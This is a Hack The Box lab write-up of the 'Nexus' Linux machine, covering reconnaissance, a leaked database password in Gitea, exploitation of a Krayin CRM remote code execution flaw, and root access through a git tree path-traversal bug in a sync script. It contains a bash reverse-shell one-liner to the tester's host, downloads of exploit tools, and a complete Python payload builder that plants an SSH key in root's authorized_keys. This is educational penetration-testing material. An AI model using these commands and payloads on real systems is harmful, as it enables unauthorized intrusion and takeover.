










Nexus — HTB Write-up

**Difficulty:** Easy
**OS:** Linux
**Tags:** git, 

## Summary


## Reconnaissance
- Nmap scan
```shell
sudo nmap -A -O -T4 -v -p- 10.129.34.224

Nmap scan report for 10.129.34.224
Host is up (0.089s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://nexus.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Uptime guess: 18.026 days (since Tue Jul  7 14:49:08 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=257 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
- Added nexus.htb to host file - Navigating to port 80 presents us with web page for Nexus Energy Authority
- 
- Reviewing the website provides us with a job posting
- 
- reviewing the job posting, we see that there is an apply and potential user
- 


## Enumeration
- Using ffuf we fuzz for vhosts and locate git.nexus.htb
```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt:FUZZ -u http://nexus.htb -H 'Host: FUZZ.nexus.htb' -c -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://nexus.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.nexus.htb
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

git                     [Status: 200, Size: 14474, Words: 1195, Lines: 242, Duration: 87ms]
billing                 [Status: 302, Size: 390, Words: 60, Lines: 12, Duration: 3438ms]
:: Progress: [19966/19966] :: Job [1/1] :: 706 req/sec :: Duration: [0:00:28] :: Errors: 0 ::
```
- Navigating to website confirms presence of gitea

- Clicking on Explore takes us to a public repository
- 
- Reviewing repository exposes docker.yml file
```yaml
version: '3.1'

services:
  krayin-app:
    image: webkul/krayin:latest
    ports:
      - "80:80"
    depends_on:
      - krayin-mysql
    volumes:
      - ./storage:/var/www/html/storage
    environment:
      APP_NAME: "Krayin CRM"
      APP_ENV: local
      APP_DEBUG: "true"
      APP_URL: http://test.htb
      APP_TIMEZONE: Asia/Kolkata
      APP_LOCALE: en
      APP_CURRENCY: USD
      DB_CONNECTION: mysql
      DB_HOST: krayin-mysql
      DB_PORT: 3306
      DB_DATABASE: krayin
      DB_USERNAME: krayin
      DB_PASSWORD: ${DB_PASSWORD}
    restart: unless-stopped

  krayin-mysql:
    image: mysql:8.0
    command: --default-authentication-plugin=mysql_native_password
    environment:
      MYSQL_DATABASE: krayin
      MYSQL_USER: krayin
      MYSQL_PASSWORD: ${DB_PASSWORD}
      MYSQL_ROOT_PASSWORD: ${DB_ROOT_PASSWORD}
    volumes:
      - dbvolume:/var/lib/mysql
    restart: unless-stopped

  krayin-phpmyadmin:
    image: phpmyadmin:latest
    ports:
      - "8080:80"
    environment:
      PMA_HOST: krayin-mysql
      PMA_USER: krayin
      PMA_PASSWORD: ${DB_PASSWORD}
    restart: unless-stopped

volumes:
  dbvolume:
```
- Checking the changes and notifications, we see the password for the database
- 
- Navigating to billing.nexus.htb reveals Krayin sign-in portal (confirmed mysql backend)
- 
- There is a banner at the bottom that shows messages and potential leaked information about the page
- 
- Testing login with our potential user and the password we discovered allows us to log in successfully
- 
- We get the version from checking out user profile
- 
- Searching for an exploit we locate CVE-2026-38526
- https://www.exploit-db.com/exploits/52629
- We download the exploit and check for parameters
```shell
  python3 52629.py                             
usage: 52629.py [-h] -t TARGET -u USER -p PASSWORD -f FILE
52629.py: error: the following arguments are required: -t/--target, -u/--user, -p/--password, -f/--file
```
- We will need a php webshell - We can use this public exploit as well to have it run commands without a file (https://github.com/NathanHimself/CVE-2026-38526-PoC)
```shell
python3 exploit.py -t http://billing.nexus.htb -u j.matthew@nexus.htb -p '<REDACTED>' -c whoami
www-data
```

## Initial Foothold
- Once we confirmed we have remote code execution, we update our command to gain a reverse shell
```shell
python3 exploit.py -t http://billing.nexus.htb -u j.matthew@nexus.htb -p '<REDACTED>' -c "bash -c 'bash -i >& /dev/tcp/10.10.16.97/9001 0>&1'"
```

```shell
nc -nvlp 9001            
listening on [any] 9001 ...
connect to [10.10.16.97] from (UNKNOWN) [10.129.34.224] 47168
bash: cannot set terminal process group (1443): Inappropriate ioctl for device
bash: no job control in this shell
www-data@nexus:~/krayin/storage/app/public/tinymce$ whoami
whoami
www-data
www-data@nexus:~/krayin/storage/app/public/tinymce$ 
```

## Privilege Escalation
- Once we have a stable shell, we enumerate the website and look for any database and credentials
- Locating the .env file in the Krayon directory, exposes the database credentials
```shell
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=krayin
DB_USERNAME=krayin
DB_PASSWORD=<REDACTED>
DB_PREFIX=
```
- We then check for users on the box and locate a user jones in the /etc/passwd file
- since the last database password allowed access, we will try to SSH with this new password for user jones (we get access)
- 
- We then upload linpeas via wget and change to executable and run
```shell
jones@nexus:~$ wget http://10.10.16.97:8000/linpeas.sh
--2026-07-25 20:58:18--  http://10.10.16.97:8000/linpeas.sh
Connecting to 10.10.16.97:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 837145 (818K) [application/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                  100%[=========================================>] 817.52K  2.24MB/s    in 0.4s    

2026-07-25 20:58:19 (2.24 MB/s) - ‘linpeas.sh’ saved [837145/837145]

jones@nexus:~$ ls
linpeas.sh  user.txt
jones@nexus:~$ chmod +x linpeas.sh 
jones@nexus:~$ ./linpeas.sh 
```
- Linpeas identified potential capabilities privilege escalation
- 
- Confirmed by running getcap on /usr/lib/snapd/snap-confie and seeing cap_dac_override
```shell
jones@nexus:~$ getcap /usr/lib/snapd/snap-confine
/usr/lib/snapd/snap-confine cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_setgid,cap_setuid,cap_sys_chroot,cap_sys_ptrace,cap_sys_admin,cap_sys_resource=p
```
- https://github.com/TheCyberGeek/CVE-2026-3888-snap-confine-systemd-tmpfiles-LPE
- Uploaded 
```shell
jones@nexus:~$ wget http://10.10.16.97:8000/exploit_caps.c
--2026-07-25 21:17:18--  http://10.10.16.97:8000/exploit_caps.c
Connecting to 10.10.16.97:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 24298 (24K) [text/x-csrc]
Saving to: ‘exploit_caps.c’

exploit_caps.c              100%[=========================================>]  23.73K  --.-KB/s    in 0.07s   

2026-07-25 21:17:18 (353 KB/s) - ‘exploit_caps.c’ saved [24298/24298]

jones@nexus:~$ wget http://10.10.16.97:8000/librootshell_caps.c
--2026-07-25 21:17:33--  http://10.10.16.97:8000/librootshell_caps.c
Connecting to 10.10.16.97:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 666 [text/x-csrc]
Saving to: ‘librootshell_caps.c’

librootshell_caps.c         100%[=========================================>]     666  --.-KB/s    in 0s      

2026-07-25 21:17:34 (43.5 MB/s) - ‘librootshell_caps.c’ saved [666/666]

```
- Unfortunately, gcc is not installed on the box...
```shell
jones@nexus:~$ gcc -O2 -static -o exploit exploit_caps.c
Command 'gcc' not found, but can be installed with:
apt install gcc
Please ask your administrator.
```
- Uploaded pspy to check for processes and any running tasks (located interesting systemd timer)
- 
- ran command to check timers and located a gitea sync timer
```shell
jones@nexus:~$ systemctl list-timers
NEXT                            LEFT LAST                              PASSED UNIT                           >
Sat 2026-07-25 21:23:33 UTC      34s Sat 2026-07-25 21:22:33 UTC      25s ago gitea-template-sync.timer      >
Sat 2026-07-25 21:30:00 UTC     7min Sat 2026-07-25 21:20:04 UTC 2min 54s ago sysstat-collect.timer          >
Sat 2026-07-25 21:36:37 UTC    13min Sat 2026-07-25 20:21:23 UTC  1h 1min ago fwupd-refresh.timer            >
Sat 2026-07-25 21:39:00 UTC    16min Sat 2026-07-25 21:09:00 UTC    13min ago phpsessionclean.timer          >
Sat 2026-07-25 23:42:06 UTC 2h 19min Tue 2026-05-12 11:52:41 UTC            - motd-news.timer                >
Sun 2026-07-26 00:00:00 UTC 2h 37min Sat 2026-07-25 19:22:16 UTC  2h 0min ago dpkg-db-backup.timer           >
Sun 2026-07-26 00:00:00 UTC 2h 37min Sat 2026-07-25 19:22:16 UTC  2h 0min ago logrotate.timer                >
Sun 2026-07-26 00:07:00 UTC 2h 44min -                                      - sysstat-summary.timer          >
Sun 2026-07-26 01:00:09 UTC 3h 37min Sat 2026-07-25 19:45:53 UTC 1h 37min ago man-db.timer                   >
Sun 2026-07-26 01:54:01 UTC 4h 31min Mon 2026-03-23 10:50:29 UTC            - update-notifier-motd.timer     >
Sun 2026-07-26 03:10:59 UTC 5h 47min Sat 2026-07-25 19:22:16 UTC  2h 0min ago e2scrub_all.timer              >
Sun 2026-07-26 06:10:12 UTC       8h Sat 2026-07-25 20:00:54 UTC 1h 22min ago apt-daily-upgrade.timer        >
Sun 2026-07-26 11:20:41 UTC      13h Sat 2026-07-25 19:54:33 UTC 1h 28min ago apt-daily.timer                >
Sun 2026-07-26 19:27:13 UTC      22h Sat 2026-07-25 19:27:13 UTC 1h 55min ago update-notifier-download.timer >
Sun 2026-07-26 19:37:13 UTC      22h Sat 2026-07-25 19:37:13 UTC 1h 45min ago systemd-tmpfiles-clean.timer   >
Mon 2026-07-27 01:36:31 UTC 1 day 4h Sat 2026-07-25 20:16:09 UTC  1h 6min ago fstrim.timer                   >

16 timers listed.
```
- Located /etc/gitea directory - Navigating and enumerating this directory exposed template-sync.py
- 
- Reviewing the code confirms there is an exploit in the way the script using the git ls-tree command and gets the raw file path without sanitization
```python
# Extract files to staging directory
    for mode, objhash, filepath in entries:
        target = os.path.join(stage_path, filepath)
        target_dir = os.path.dirname(target)

        try:
            os.makedirs(target_dir, exist_ok=True)
            GIT = ['git', '-c', 'safe.directory=*']
            cat_result = subprocess.run(
                GIT + ['cat-file', 'blob', objhash],
                cwd=bare_path,
                capture_output=True, timeout=10
            )
            if cat_result.returncode != 0:
                continue

            with open(target, 'wb') as f:
                f.write(cat_result.stdout)

            if mode == '100755':
                os.chmod(target, 0o755)
            else:
                os.chmod(target, 0o644)

            log("  synced: %s" % filepath)
        except Exception as e:
            log("  error syncing %s: %s" % (filepath, e))


```

- From here, we can create a repo and create a python script to add SSH keygen to authorized_keys
- We first see if we can log in as jones in gitea (successful)
- Then we create a new repo (you can name this anything, lets be stealthy and name it "KrayinUpdate")
- 
- We also want to make sure we make a repository a template
- 
- Then we need to generate a ssh key
```shell
ssh-keygen -t ed25519 -f /tmp/.k -N ''
```
- We then create a README.md file 
```shell
touch README.md
```

- We need to travers up to the root and then down to authorized_keys - we can use the below python script to automate the traversal payload
```python
# build.py
#!/usr/bin/env python3

import hashlib
import os
import subprocess
import sys
import time
import zlib


def write_obj(data, object_type):
    header = ("%s %d" % (object_type, len(data))).encode() + b"\x00"
    store = header + data
    sha = hashlib.sha1(store).hexdigest()

    directory = os.path.join(".git", "objects", sha[:2])
    os.makedirs(directory, exist_ok=True)

    path = os.path.join(directory, sha[2:])

    if not os.path.exists(path):
        with open(path, "wb") as file:
            file.write(zlib.compress(store))

    return sha


def entry(mode, name, sha):
    return (
        ("%s %s" % (mode, name)).encode()
        + b"\x00"
        + bytes.fromhex(sha)
    )


if not os.path.isdir(".git"):
    print("Run inside git repo")
    sys.exit(1)

result = subprocess.run(
    ["cat", "/tmp/.k.pub"],
    capture_output=True,
    text=True,
)

if result.returncode != 0:
    print("ssh-keygen -t ed25519 -f /tmp/.k -N ''")
    sys.exit(1)

key = result.stdout.strip() + "\n"

blob = write_obj(key.encode(), "blob")
readme = write_obj(b"# Template\n", "blob")

ssh_tree = write_obj(
    entry("100644", "authorized_keys", blob),
    "tree",
)

current_tree = write_obj(
    entry("40000", ".ssh", ssh_tree),
    "tree",
)

first_tree = write_obj(
    entry("40000", "root", current_tree),
    "tree",
)

for _ in range(4):
    first_tree = write_obj(
        entry("40000", "..", first_tree),
        "tree",
    )

root = write_obj(
    entry("100644", "README.md", readme)
    + entry("40000", "..", first_tree),
    "tree",
)

timestamp = int(time.time())

commit = (
    "tree %s\n"
    "author x <x@x> %d +0000\n"
    "committer x <x@x> %d +0000\n"
    "\n"
    "init\n"
    % (root, timestamp, timestamp)
)

sha = write_obj(commit.encode(), "commit")

refs_directory = os.path.join(".git", "refs", "heads")
os.makedirs(refs_directory, exist_ok=True)

with open(os.path.join(refs_directory, "main"), "w") as file:
    file.write(sha + "\n")

print("Done: " + sha)
```
- Running the script confirms successful
```shell
python3 build.py
Done: 7178219d4cdb95e5ece4fb90e9a2b10db328f7ee
```
- We then push the changes to the repo
```shell
git push -u origin main --force                                              
Enumerating objects: 11, done.
Counting objects: 100% (11/11), done.
Delta compression using up to 8 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (11/11), 610 bytes | 87.00 KiB/s, done.
Total 11 (delta 0), reused 0 (delta 0), pack-reused 0 (from 0)
remote: . Processing 1 references
remote: Processed 1 references in total
To http://git.nexus.htb/jones/KrayinUpdate.git
 * [new branch]      main -> main
branch 'main' set up to track 'origin/main'.
```

- Then we wait for the sync timer - After a few minutes, we check the logs and see our update
```shell
[2026-07-25 21:50:35] Found 1 template repo(s)
[2026-07-25 21:50:35] Syncing template: jones/KrayinUpdate
[2026-07-25 21:50:35]   ls-tree failed: fatal: Not a valid object name HEAD
[2026-07-25 21:50:35] Template sync complete
[2026-07-25 21:51:35] Template sync starting
[2026-07-25 21:51:35] Found 1 template repo(s)
[2026-07-25 21:51:35] Syncing template: jones/KrayinUpdate
[2026-07-25 21:51:35]   ls-tree failed: fatal: Not a valid object name HEAD
[2026-07-25 21:51:35] Template sync complete
[2026-07-25 21:52:35] Template sync starting
[2026-07-25 21:52:35] Found 1 template repo(s)
[2026-07-25 21:52:35] Syncing template: jones/KrayinUpdate
[2026-07-25 21:52:35]   synced: README.md
[2026-07-25 21:52:35]   synced: ../../../../../root/.ssh/authorized_keys
[2026-07-25 21:52:35] Template sync complete

```

- We can then SSH as root and get the flag
```shell
ssh -i /tmp/.k root@nexus.htb           
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-111-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Jul 25 09:54:11 PM UTC 2026

  System load:           0.02
  Usage of /:            68.0% of 6.48GB
  Memory usage:          29%
  Swap usage:            0%
  Processes:             242
  Users logged in:       1
  IPv4 address for eth0: 10.129.34.224
  IPv6 address for eth0: dead:beef::a0de:adff:fe6c:e7fd

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

1 update can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

root@nexus:~# whoami
root
root@nexus:~# ls -la
total 32
drwx------  5 root root 4096 Jul 25 19:23 .
drwxr-xr-x 23 root root 4096 May 12 12:06 ..
lrwxrwxrwx  1 root root    9 May 12 12:26 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr 22  2024 .bashrc
drwx------  3 root root 4096 May 12 12:06 .cache
drwxr-xr-x  3 root root 4096 May 12 12:06 .local
-rw-r--r--  1 root root  161 Apr 22  2024 .profile
-rw-r-----  1 root root   33 Jul 25 19:23 root.txt
drwx------  2 root root 4096 May 12 12:06 .ssh

```
## Key Takeaways
- Some python script reading is required as well as understanding git and pushing changes
- Checking for services (pspy) can also lead to apps/scripts running as root or another elevated user
- there may be multiple paths to root, however, it's good to know when to stop and move on

---
*Flags redacted per HTB write-up guidelines. This write-up covers retired content only.*